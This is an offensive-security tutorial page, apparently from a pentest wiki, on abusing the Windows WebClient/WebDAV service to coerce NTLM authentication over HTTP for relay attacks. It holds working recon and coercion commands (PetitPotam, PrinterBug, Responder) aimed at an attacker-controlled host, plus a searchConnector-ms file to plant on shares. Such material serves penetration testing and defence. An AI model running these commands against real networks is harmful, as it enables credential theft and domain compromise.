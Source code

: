 # WebClient abuse (WebDAV)

## Theory

> Web Distributed Authoring and Versioning (WebDAV) is an extension to Hypertext Transfer Protocol (HTTP) that defines how basic file functions such as copy, move, delete, and create are performed by using HTTP ([docs.microsoft.com](https://docs.microsoft.com/en-us/windows/win32/webdav/webdav-portal))

The WebClient service needs to be enabled for WebDAV-based programs and features to work. As it turns out, the WebClient service can be indirectly abused by attackers to coerce authentications. This technique needs to be combined with other coercion techniques (e.g. [PetitPotam](ms-efsr.md), [PrinterBug](ms-rprn.md)) to act as a booster for these techniques. **It allows attackers to elicit authentications made over HTTP instead of SMB**, hence heightening [NTLM relay](../ntlm/relay.md) capabilities.

## Practice

### Recon

Attackers can remotely enumerate systems on which the WebClient is running, which is not uncommon in organizations that use OneDrive or SharePoint or when mounting drives with a WebDAV connection string.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be achieved with [webclientservicescanner](https://github.com/Hackndo/WebclientServiceScanner) (Python) or using [NetExec](https://github.com/Pennyw0rth/NetExec) (Python).

```bash
webclientservicescanner 'domain.local'/'user':'password'@'machine'
netexec smb 'TARGETS' -d 'domain' -u 'user' -p 'password' -M webdav
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, this can be achived with [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus) (C, C#)

```bash
GetWebDAVStatus.exe 'machine'
```
{% endtab %}
{% endtabs %}

### Abuse

Regular coercion techniques rely on the attacker forcing a remote system to authenticate to another one. The "other" system is usually an IP address, a domain or NetBIOS name. With WebClient abuse, the other system needs to be supplied in a WebDAV Connection String format.

The WebDAV Connection String format is: `\\SERVER@PORT\PATH\TO\DIR`.

{% hint style="info" %}
To retrieve an authenticated connection, the remote server that attacker wants to victim to be relayed to [should be considered in the intranet zone](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#getting-intranet-zoned). One way to do it is to use the NetBIOS or DNS name of the attacker machine instead of its IP address.

In order to have a valid NetBIOS name, [Responder](https://github.com/lgandx/Responder) can be used.

A heftier alternative is to do some [ADIDNS poisoning](adidns-spoofing.md) to create and use a valid DNS entry.
{% endhint %}

Below are a few examples of WebClient abuse with [PrinterBug](../print-spooler-service/printerbug.md) and [PetitPotam](ms-efsr.md).

```bash
# PrinterBug
dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

# PetitPotam
Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
```

### Start the WebClient service

On a side note, making a remote system start the WebClient service can be done in many ways

{% tabs %}
{% tab title="Map a WebDAV server" %}
By mapping a remote WebDAV server. This can be done by having Responder's server up and by running the `net use` cmdlet.

```shell
# starting responder (in analyze mode to prevent poisoning)
responder --interface "eth0" --analyze
responder -I "eth0" -A

# map the drive from the target WebClient needs to be started on
net use x: http://$RESPONDER_IP/
```
{% endtab %}

{% tab title="searchConnector-ms" %}
With a [searchConnector-ms](https://docs.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry) file uploaded to widely used share within the organisation. Each time a user browses the folder, the WebClient service will start transparently.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>https://whatever/</url>
    </simpleLocation>
</searchConnectorDescription>
```
{% endtab %}

{% tab title="Explorer" %}
By opening an interactive session with the target (e.g. RDP), opening the Explorer, and type something in the address bar.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://pentestlab.blog/2021/10/20/lateral-movement-webclient" %}

{% embed url="https://www.webdavsystem.com/server/access/windows" %}
